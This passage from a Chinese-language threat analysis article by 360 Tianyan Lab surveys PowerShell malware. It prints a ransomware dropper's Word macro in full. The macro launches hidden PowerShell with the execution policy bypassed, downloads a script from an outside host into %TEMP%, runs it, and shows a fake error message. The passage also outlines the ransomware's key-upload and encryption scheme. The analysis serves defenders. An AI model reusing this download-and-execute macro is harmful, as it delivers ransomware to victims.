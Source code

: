 # Powershell恶意代码的N种姿势

**Author:360天眼实验室**

0x00 引言
=======

* * *

人在做，天在看。

技术从来都是中性的，被用来行善还是作恶完全取决于运用它的人。原子能可以用来发电为大众提供清洁能源，也可以用来制造能毁灭全人类的核武器，这不是一个完善的世界，于是我们既有核电站也有了核武器。

Powershell，曾经Windows系统管理员的称手工具，在恶意代码制造和传播者手里也被玩得花样百出。由于Powershell的可执行框架部分是系统的组件不可能被查杀，而驱动它的脚本是非PE的而非常难以通过静态方法判定恶意性，同时脚本可以非常小巧而在系统底层的支持下功能却可以非常强大，这使利用Powershell的恶意代码绕过常规的病毒防护对系统为所欲为。因此，360天眼实验室近期看到此类恶意代码泛滥成灾就毫不奇怪，事实上，我们甚至看到所跟踪的APT团伙也开始转向Powershell。

本文我们向大家展示一些看到的实际恶意代码的例子。

0x01 实例分析
=========

* * *

这里我们基于360威胁情报中心的数据，对接触到的Powershell恶意代码按分类各举一例。

### 勒索软件

我们知道现在勒索软件以其直接的变现方式现在已成为黑产的宠儿，像雨后春笋那样冒出来的勒索软件中，我们看到了使用纯Powershell脚本实现的例子。

样本MD5：ea7775da99367ac89f70f2a95c7f8e8e

这是一个通过Word文档中嵌入宏以诱导执行的勒索软件，使用工具提取出其中的宏，内容如下：

```
"vba_code": "Private Sub Document_Open() Dim FGHNBVRGHJJGFDSDUUUU As String FGHNBVRGHJJGFDSDUUUU = "cmd /K " + "pow" + "er" + "Sh" + "ell.e" + "x" + "e -WindowStyle hiddeN -ExecuTionPolicy BypasS -noprofile (New-Object System.Net.WebClient).DownloadFile('http://rxlawyer.in/file.php','%TEMP%\Y.ps1'); poWerShEll.exe -WindowStyle hiddeN -ExecutionPolicy Bypass -noprofile -file %TEMP%\Y.ps1" Shell FGHNBVRGHJJGFDSDUUUU, 0 MsgBox ("Module could not be found.") FGHHH = 7 * 2 DGHhhdRGHH = 9 + 23 End Sub"

```

宏的功能是下载`http://rxlawyer.in/file.php`到本地的temp目录下，并用Powershell运行这个文件。而下载回来的file.php本质上是一个ps的脚本文件，MD5为：dd180477d6a0bb6ce3c29344546ebdfc 。

勒索者脚本的实现原理是：通过随机生成加密密钥与用户ID，将加密密钥与用户ID信息上传到服务器进行备份，在用户机器上使用对称算法将用户的文档进行加密。因为密钥为随机生成，除非拥有攻击者服务器上备份的密钥，否则很难将被加密的文档进行还原。

脚本的原貌为：

![p1](http://drops.javaweb.org/uploads/images/86887377fd64c94879257bd577178866dba46781.jpg)

可见，脚本做了混淆处理，简单处理以后归纳出的脚本主要执行过程如下：

1.生成三个随机数，分别表示加密密钥、加密用的盐、UUID
